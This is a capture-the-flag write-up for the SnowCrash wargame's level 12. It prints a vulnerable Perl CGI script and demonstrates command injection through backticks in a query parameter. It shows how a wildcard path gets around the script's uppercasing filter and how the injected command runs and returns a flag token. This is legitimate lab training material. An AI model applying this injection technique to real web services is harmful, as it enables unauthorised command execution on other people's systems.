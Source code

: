 ### Level12

Let's start by looking at the available script:
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We can observe 3 things:
- The script listens on port 4646
- It takes 2 parameters but only the first "x" is used
- "x" is modified via regexes: 
	- `tr/a-z/A-Z/` will capitalize "x"
	- `s/\s.*//;` the argument must start with whitespaces characters and be followed by characters

Let's start by creating a script to run the `getflag` command in a file:

`echo "getflag > /tmp/test" > /tmp/EXPLOIT`

Then let's do the following test, replacing `/tmp` with `*` so that we don't have to worry about regex :
```
level12@SnowCrash:~$ curl '10.181.11.61:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
cat: /tmp/test: No such file or directory
```

Our test file was not created, so the command did not work. And indeed after running the script directly we can see this:
```
level12@SnowCrash:~$ ./level12.pl x="`/*/EXPLOIT`"
-bash: /tmp/EXPLOIT: Permission denied
Content-type: text/html

..level12@SnowCrash:~$
```

We then just need to change the permissions of `EXPLOIT` with a chmod. If we run the commands again we can see that it works:
```
level12@SnowCrash:~$ chmod 777 /tmp/EXPLOIT
level12@SnowCrash:~$ curl '10.181.11.61:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
Check flag.here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
